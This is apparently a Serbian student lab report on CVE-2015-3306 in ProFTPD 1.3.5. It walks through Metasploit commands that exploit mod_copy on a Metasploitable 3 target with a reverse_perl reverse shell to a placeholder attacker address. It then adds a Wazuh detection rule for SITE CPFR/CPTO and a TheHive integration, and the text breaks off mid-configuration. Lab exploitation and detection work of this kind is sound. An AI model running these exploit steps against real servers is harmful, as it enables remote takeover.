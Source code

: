 # Eksploatacija ranjivosti, detekcija, i Incident Response izveštaj

### Ime i prezime: Ognjen Radovanović R2 9/2024

---

## Pregled ranjivosti

### 1.1 Informacije o ranjivosti

- **ID ranjivosti (CVE):** CVE-2015-3306
- **Pogođen servis:** ProFTPD
- **CVSS ocena:** 9.8
- **Opis ranjivosti:** Ranjivost se odnosi na `mod_copy` modul u ProFTPD verziji 1.3.5, koji omogućava udaljenim napadačima da čitaju i pišu u proizvoljne fajlove korišćenjem FTP komandi `SITE CPFR` i `SITE CPTO`. Ranjivost omogućava neautorizovan pristup fajlovima na sistemu i potencijalno daljinsko preuzimanje kontrole nad pogođenim serverom.

### 1.2 Opis eksploita

**Metod eksploatacije:**

Eksploatacija ranjivosti koristi komandni interfejs Metasploit Framework-a kako bi se iskoristila ranjivost u `mod_copy` modulu. Napad uključuje korišćenje komandi `SITE CPFR` i `SITE CPTO` za premeštanje malicioznog payload-a na serveru.

---

## Proces eksploatacije

### 2.1 Podešavanje eksploita

**Ranjiv cilj:**

- Operativni sistem: Metasploitable 3 Ubuntu
- Verzija ProFTPD-a: 1.3.5
- Portovi: FTP (21), HTTP (80)

**Alati za eksploataciju:**

- Metasploit Framework
- Alat za testiranje mreža (npr. `nmap` za detekciju servisa i verzija)

### 2.2 Koraci eksploatacije

1. **Pokretanje Metasploit Framework-a:**

   ```bash
   msfconsole
   ```
2. **Pronalaženje odgovarajućeg modula:**

   ```bash
   search proftpd
   ```

   Odabiramo modul `exploit/unix/ftp/proftpd_modcopy_exec` za eksploataciju.

   ```bash
   use exploit/unix/ftp/proftpd_modcopy_exec
   ```
3. **Odabiramo payload `cmd/unix/reverse_perl`.**

   ```bash
   use cmd/unix/reverse_perl
   ```
4. **Postavljamo sitepath.**

   ```bash
   set sitepath /var/www/html
   ```
5. **Podešavanje parametara eksploita:**

   - Postavljamo IP adresu cilja:
     ```bash
     set RHOST <CILJ_IP>
     ```
   - Postavljamo port cilja:
     ```bash
     set RPORT 21
     ```
   - Postavljamo IP adresu napadača za reverse shell konekciju:
     ```bash
     set LHOST <NAPADAC_IP>
     ```
   - Postavljamo lokalni port za reverse shell konekciju:
     ```bash
     set LPORT 4444
     ```
6. **Pokretanje eksploita:**

   ```bash
   exploit
   ```
![Screenshot_3](https://github.com/user-attachments/assets/5f26bbd9-6fa5-4e78-a776-2ff978f72447)
![Screenshot_1](https://github.com/user-attachments/assets/ed5f8fa4-e880-4544-a7b8-b94a0a56306b)
![Screenshot_2](https://github.com/user-attachments/assets/4d13c2f8-597c-48ad-91e1-c7038c59d779)

### 2.3 Rezultat eksploatacije

Eksploatacija je uspešno izvršena. Ostvarena je Metasploit Meterpreter sesija na ciljnom sistemu, omogućavajući daljinski pristup fajlovima i sistemskim komandama.

---

## Detekcija korišćenjem Wazuh SIEM-a

### 3.1 Pravila za detekciju

**Dodato pravilo u Wazuh SIEM-u:**

U fajlu `/var/ossec/etc/rules/local_rules.xml` dodat je sledeći unos za detekciju malicioznih `SITE CPFR` i `SITE CPTO` komandi:

```xml
<group name="proftpdgroup">
    <rule id="100003" level="12">
        <description>ProFTPD mod_copy attack detected</description>
        <match>SITE CPFR|SITE CPTO</match>
        <options>no_full_log</options>
        <mitre>
            <id>T1021</id>
        </mitre>
    </rule>
</group>
```

- **ID pravila:** `100003`
- **Mitre ID:** `T1021`
- **Level:** `12`
- **Opis pravila:** Pravilo detektuje FTP komande koje se koriste za eksploataciju `mod_copy` modula.

### 3.2 Konfiguracija SIEM-a

**Postavljanje Wazuh agenta:**

Agent je instaliran na ciljnoj mašini korišćenjem naredbe:

```bash
wget https://packages.wazuh.com/4.x/apt/pool/main/w/wazuh-agent/wazuh-agent_4.9.2-1_amd64.deb
sudo WAZUH_MANAGER='<MANAGER_IP>' WAZUH_AGENT_NAME='<CILJ_IMENA>' dpkg -i ./wazuh-agent_4.9.2-1_amd64.deb
```

Agent se zatim pokreće:

```bash
sudo /var/ossec/bin/wazuh-control start
```

**Prikupljanje logova:**

Dodato je praćenje FTP logova u `ossec.conf` fajlu:

```xml
<localfile>
  <location>/var/log/proftpd/proftpd.log</location>
  <log_format>syslog</log_format>
</localfile>
```

### 3.3 Proces detekcije

Nakon pokretanja eksploita, u logovima se beleže maliciozne komande `SITE CPFR` i `SITE CPTO`, koje su detektovane kao potencijalni napad. Wazuh generiše alarme sa detaljima o izvornoj IP adresi napadača.
![WhatsApp Image 2024-12-11 at 12 35 02](https://github.com/user-attachments/assets/b2e3cafc-a453-4080-beda-94af3775d497)

---

## Incident Response sa The Hive-om

### 4.1 Podešavanje integracije

**Opis integracije:**

Wazuh je konfigurisan za integraciju sa The Hive-om kako bi svi detektovani incidenti bili automatski prosleđeni. Koristi se Python skripta za komunikaciju sa API-em The Hive-a, koja kreira novi incident za svaki relevantan alarm.

**Dodavanje pravila u integraciju:**

Konfiguracija u Wazuh menadžru za integraciju sa The Hive-om izgleda ovako:

```xml
<integration>
  <name>thehive</name>
  <hook_url>http://<THE_HIVE_IP>:9000/api/alert</hook_url>
  <api_key><API_KEY></api_key>
  <level>10</level>
</integr
```
